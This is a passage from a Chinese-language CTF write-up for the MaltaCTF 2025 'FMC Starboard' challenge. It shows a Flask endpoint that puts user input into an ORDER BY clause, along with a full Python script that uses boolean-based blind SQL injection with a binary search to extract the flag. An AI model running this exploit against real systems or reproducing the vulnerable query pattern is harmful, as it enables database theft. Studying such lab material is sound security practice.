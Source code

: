 ```python
        f"{full_hex[12:16]}-"
        f"{full_hex[16:20]}-"
        f"{full_hex[20:32]}"
    )
    return uuid_str
```


### （lq）MaltaCTF 2025 FMC Starboard

可以控制 order by star 后的语句，要想使得排序结果不同，可以考虑star\*0或star\*1，前者会导致返回原始顺序，后者会按照star进行排序。

```python
def index():
    order = request.args.get('order', 'DESC')
    if ';' in order or ',' in order:
        return jsonify({'error': 'bad char'})
    conn = get_conn()
    with conn.cursor(cursor_factory=RealDictCursor) as cur:
        cur.execute(f'SELECT * FROM posts ORDER BY stars {order} LIMIT 50')
        results = cur.fetchall()
    conn.close()
```

由于这里过滤了`;`和`,`，所以可以使用`SUBSTRING(string FROM position FOR 1)`来提取字符。

解题脚本：

```python
import requests
import urllib.parse
from bs4 import BeautifulSoup

TARGET_URL = 'https://fmc-starboard-0b2ca03e095f5e5a.instancer.challs.mt'
def solve():
    flag = ""
    position = 10
    while True:
        found_char_for_pos = False
        l, r = 32, 126
        while l <= r:
            mid = (l+r)//2
            sub_select = f"ASCII(SUBSTRING((SELECT flag FROM flag) FROM {position} FOR 1))>{mid}"
            payload = f"*(CASE WHEN ({sub_select}) THEN 0 ELSE 1 END)--"
            encoded_payload = urllib.parse.quote(payload)
            
            url = f"{TARGET_URL}/?order={encoded_payload}"
            try:
                response = requests.get(url, timeout=5)
                soup = BeautifulSoup(response.text, 'html.parser')
                first_post = soup.find_all('li')[0].get_text(strip=True)[0]
                if int(first_post) == 9:
                    l = mid + 1
                else:
                    r = mid - 1
            except Exception as e:
                pass
        flag += chr(l)
        print(f"[+] Flag found: {flag}")
        position += 1
        found_char_for_pos = True
        if not found_char_for_pos or flag.endswith('}'):
            print(f"Flag: {flag}")
            break
if __name__ == '__main__':
    solve()
```